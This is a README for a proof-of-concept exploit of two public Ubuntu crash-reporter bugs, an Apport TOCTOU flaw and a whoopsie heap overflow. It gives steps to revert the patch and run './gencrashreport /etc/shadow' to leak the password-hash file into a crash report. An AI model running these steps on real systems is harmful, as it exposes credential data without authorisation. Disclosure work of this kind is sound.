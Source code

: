 # Ubuntu Apport TOCTOU (CVE-2019-7307) and whoopsie heap buffer overflow (CVE-2019-11476)

This directory contains proof-of-concept exploits for vulnerabilities in Ubuntu's crash reporting system:

* [CVE-2019-7307](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-7307) is a time-of-check to time-of-use (TOCTOU) vulnerability in Apport, which enables an unprivileged local user to trick Apport into including the contents of an arbitrary file in a crash report. The full bug report is public on [bugs.launchpad.net](https://bugs.launchpad.net/ubuntu/+source/apport/+bug/1830858).
* [CVE-2019-11476](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-11476) is a denial of service vulnerability. An integer overflow when reading large crash dumps (> 4GB) leads to a heap buffer overflow. I do not believe it is possible to exploit this heap buffer overflow to achieve code execution, so I have classified this bug as a denial of service. The full bug report is public on [bugs.launchpad.net](https://bugs.launchpad.net/ubuntu/+source/whoopsie/+bug/1830863).

## Instructions

I usually try to provide a `Dockerfile` so that my PoCs are safely reproducible on a patched system. Unfortunately, Apport is specifically designed to behave differently inside a container, so I am not able to do so this time. Instead, if you would like to test the exploit, then you will need to revert the bug fix in your Apport installation. You can do that as follows:

```
git clone https://git.launchpad.net/ubuntu/+source/apport
cd apport
git checkout applied/2.20.9-0ubuntu7.6
sudo cp apport/report.py /usr/lib/python3/dist-packages/apport/report.py
```

When you are done, don't forget to fix your installation:

```
sudo apt-get install --reinstall python3-apport
```

Build the PoC for Apport CVE-2019-7307 like this:

```
make
```

And run it like this:

```
./gencrashreport /etc/shadow
```

This will create a file named `/var/crash/_usr_share_apport_apport.0.crash`, which is owned by `root`, but also readable by `whoopsie`. For a full exploit chain, we would therefore also need a second exploit that enables us to read files as whoopsie. But since we don't have that yet, we need to change the permissions of the crash report:

```
sudo chmod 666 /var/crash/_usr_share_apport_apport.0.crash
```

At this point, you can unpack the crash report and see that the contents of `/etc/shadow` are embedded in the `CoreDump` file:

```
mkdir report
apport-unpack /var/crash/_usr_share_apport_apport.0.crash report
cd report
```

Note: `apport-unpack` is a bit flaky and usually crashes with an error message like this: `['ProcEnviron', 'UserGroups'] has no binary content`. But it works well enough to extract the core dump from the report. Now use your favorite text editor to open `CoreDump` and search for the contents of `/etc/password`. Searching for the string "root:" usually works.

